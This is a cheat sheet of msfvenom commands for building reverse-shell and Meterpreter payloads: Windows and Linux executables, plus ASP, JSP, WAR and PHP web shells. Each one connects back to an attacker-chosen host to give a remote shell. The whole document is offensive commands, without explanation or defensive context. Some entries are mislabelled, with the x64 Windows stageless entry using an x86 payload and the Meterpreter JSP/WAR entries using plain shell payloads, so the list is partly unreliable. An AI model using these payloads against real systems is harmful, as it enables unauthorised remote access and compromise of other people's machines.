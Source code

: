 # Non-Meterpreter Binaries

### Staged Payloads for Windows
  x86	<br/>
  msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
  
  x64	<br/>
  msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
  
### Stageless Payloads for Windows
  x86 	<br/>
  msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
  
  x64 	<br/>
  msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe

### Stageless Payloads for Linux
  x86 	<br/>
  msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
  
  x64 	<br/>
  msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
  
# Non-Meterpreter Web Payloads
  asp	<br/>
  msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
  
  jsp	<br/>
  msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
  
  war	<br/>
  msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
  
  php	<br/>
  msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
  
# Meterpreter Binaries
  
### Staged Payloads for Windows
  x86	<br/>
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
  
  x64	<br/>
  msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
  
### Stageless Payloads for Windows
  x86	<br/>
  msfvenom -p windows/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
  
  x64	<br/>
  msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
  
### Staged Payloads for Linux
  x86	<br/>
  msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
  
  x64	<br/>
  msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
  
### Stageless Payloads for Linux
  x86	<br/>
  msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
  
  x64	</br>
  msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
  
# Meterpreter Web Payloads
  
  asp	<br/>
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
  
  jsp	<br/>
  msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > example.jsp
  
  war	<br/>
  msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > example.war
  
  php	<br/>
  msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
